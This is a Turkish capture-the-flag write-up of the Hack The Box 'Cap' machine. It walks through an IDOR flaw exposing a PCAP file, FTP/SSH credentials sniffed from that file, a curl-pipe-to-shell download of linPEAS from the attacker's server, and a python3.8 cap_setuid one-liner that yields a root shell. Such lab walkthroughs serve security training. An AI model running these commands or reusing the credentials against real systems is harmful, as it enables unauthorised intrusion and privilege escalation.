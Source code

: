 # Hack The Box - Cap (Linux / Easy)

## 📅 Genel Bilgi

Yayın Tarihi: 05 Haziran 2021  
Zorluk: Kolay  
Seviye: Başlangıç  
Hazırlayan: InfoSecJack  
Platform: Hack The Box  
Hedef: Kullanıcı ve Root Bayrakları  

---

## 🚀 Proje Özeti

Bu makine, web arayüzünde erişilen ve içindeki PCAP dosyasından FTP kimlik bilgilerini sızdıran bir "Security Dashboard" içeriyor.  
Elde edilen kimlik bilgileri FTP ve SSH erişiminde kullanılıyor.  
Yetki yükseltme aşamasında Linux Capabilities kullanılarak, `/usr/bin/python3.8` üzerinde bulunan `cap_setuid` yetkisiyle root erişimi sağlanıyor.

---

## 🕵️‍♂️ Bilgi Toplama

Nmap taraması ile açık portlar ve servis versiyonları tespit edildi:


nmap -v -sS -A -T4 10.10.10.245
Açık portlar:

21/tcp - FTP (vsftpd 3.0.3)

22/tcp - SSH (OpenSSH 8.2p1 Ubuntu)

80/tcp - HTTP (Gunicorn web server)

🌐 Web Servisi Analizi (Port 80)
Web arayüzü "Security Dashboard" ile açılıyor.
"Security Snapshot" işlemi sonrası tarayıcı /data/[id] formatında URL'lere yönlendiriliyor.
id parametresi değiştirilerek başka kullanıcıların analiz sonuçlarına erişilebildiği tespit edildi.
Bu, IDOR (Insecure Direct Object Reference) zafiyetidir.
En fazla kayıt içeren id=0 olarak belirlendi.

📂 PCAP Dosyasının İncelenmesi
/data/0 dizininden indirilen pcap dosyası Wireshark ile incelendi.
FTP trafiğinden açık olarak iletilen kimlik bilgileri elde edildi:

Kullanıcı Adı: nathan
Şifre: Buck3tH4TF0RM3!

🔑 Erişim Sağlama
Bu kimlik bilgileri önce FTP için denendi, işe yaramadı.
SSH bağlantısı başarılı oldu.


ssh nathan@10.10.10.245
🏴 Kullanıcı Bayrağı (User Flag)
SSH bağlantısı sonrası kullanıcı bayrağı okundu:


cat /home/nathan/user.txt
🛠️ Yetki Yükseltme (Privilege Escalation)
Hedef makine dış dünyadan dosya indirmeye kapalı olduğu için linPEAS betiği saldırgan makinesinde python3 ile HTTP sunucusu açılarak hedefe aktarıldı.

Saldırgan makinesinde HTTP sunucu açılır:
python3 -m http.server 8080
Hedef makinede indirme ve çalıştırma:
curl http://10.10.16.34:8080/linpeas.sh | sh

⚙️ Özel Yetkili Binary Tespiti
linPEAS çıktısında /usr/bin/python3.8 dosyasının cap_setuid yetkisi olduğu görüldü.
Bu yetki programın setuid çağrısı yaparak etkin kullanıcı kimliğini değiştirmesine izin verir.

👑 Root Yetkisi Alımı
cap_setuid yetkisi sayesinde python3.8 kullanılarak etkin UID root yapılır ve root shell elde edilir.
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
Örnek çıktı:
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash"); '
root@cap:~#

🏴 Root Bayrağı (Root Flag)
Root shell açıldıktan sonra root bayrağı okunur:
cat /root/root.txt

📋 Özet Tablosu
Aşama              |	Durum
Nmap Taraması	     | Tamamlandı
Web Analizi (IDOR) | Tamamlandı
PCAP Analizi	     | Tamamlandı
FTP/SSH Girişi	   | Başarılı
Kullanıcı Bayrağı	 | Alındı
linPEAS Analizi	   | Tamamlandı
Yetki Yükseltme	   | Başarılı
Root Bayrağı	     | Alındı

🛠️ Kullanılan Araçlar
nmap
Wireshark
curl, python3 -m http.server
linpeas.sh
SSH

